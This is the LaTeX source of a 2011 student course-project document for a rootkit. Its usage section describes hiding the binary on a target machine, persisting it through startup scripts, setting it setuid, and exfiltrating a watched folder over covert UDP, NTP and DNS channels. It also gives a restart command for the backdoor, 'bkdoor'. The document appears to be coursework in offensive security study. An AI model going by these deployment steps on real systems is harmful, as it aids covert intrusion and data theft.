 \documentclass[titlepage]{article}
\begin{document}
\author{Stevan Stanisic and Santana Mach}
\title{COMP 8505 - Final Project \\ Rootkit \\ Testing Documents}
\date{Dec 03, 2011}
\maketitle{}

\tableofcontents
\pagebreak

\section{Introduction}

Placeholder.

\section{Usage Instructions}

Installation is not required, the functionality of the program is controlled by command-line switches, simply copy the binary to a surreptitious location on the target machine and either launch it manually or add it to a startup script.

To compile the program from source, the libpcap and openssl development libraries will be required.  Building the program from source should be possible with any version of GCC that supports at least the gnu99 C standard using the provided makefile.  Note, the makefile will also set the setuid bit on the resulting executable as the program requires elevated priveleges to open raw sockets.

The available command-line flags are:
-c : Use this option to activate Client mode. This should be used on the attacker's machine.
-s : Use this option to activate Server mode. This should be used on the victim machine.
-h : Use this option to see a short version of the program usage instructions.
-i <arg> : Use this option to specify the remote host that the machine will be communicating with. For the Client, this will be the server's IP. For the Server, this will be the Client's IP.
-w <arg> : Use this option to specify the folder to watch for exfiltration. Any files created or modified in this folder will be sent to the client.
-x <arg> : Use this option to specify the covert channel to use. 'u' for UDP source port, 'n' for NTP ref\_id, 'd' for DNS transaction id.

If you wish to change the watch folder, the easiest way to do this remotely is to use the ps utility to find your covert process on the victim machine and then execute 'kill <process id>; ./bkdoor -s -w <path> -i <ip> ... other options'.
\end{document}
